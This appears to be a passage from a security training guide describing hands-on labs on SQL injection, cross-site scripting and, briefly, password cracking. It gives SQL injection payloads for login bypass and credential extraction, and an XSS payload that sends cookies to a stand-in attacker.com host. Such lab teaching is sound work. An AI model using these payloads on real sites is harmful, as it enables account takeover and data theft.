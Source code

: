 **Duration**: 60 minutes  
**Objective**: Understand and exploit SQL injection  
**Skills**: SQL queries, injection techniques, manual exploitation

```bash
synos-lab start "SQL Injection Basics"
```

**Scenario**: Test a vulnerable login form for SQL injection.

**Tasks**:

1. Identify injection point
2. Bypass authentication
3. Enumerate database structure
4. Extract user credentials
5. Gain admin access

**Example Payloads**:

```sql
-- Bypass login
' OR '1'='1' --

-- Enumerate tables
' UNION SELECT table_name, NULL FROM information_schema.tables --

-- Extract data
' UNION SELECT username, password FROM users --
```

**Bonus**: Write a Python script to automate extraction

---

### 🎯 Lab 4: Cross-Site Scripting (XSS)

**Duration**: 45 minutes  
**Objective**: Identify and exploit XSS vulnerabilities  
**Skills**: JavaScript, DOM manipulation, session hijacking

```bash
synos-lab start "XSS Basics"
```

**Tasks**:

1. Find reflected XSS in search form
2. Inject alert box: `<script>alert('XSS')</script>`
3. Steal cookie: `<script>document.location='http://attacker.com/?c='+document.cookie</script>`
4. Create persistent XSS in comment form
5. Perform session hijacking

---

### 🎯 Lab 5: Password Cracking

**Duration**: 40 minutes  
**Objective**: Crack password hashes  
**Skills**: Hash identification, dictionary attacks, rainbow tables

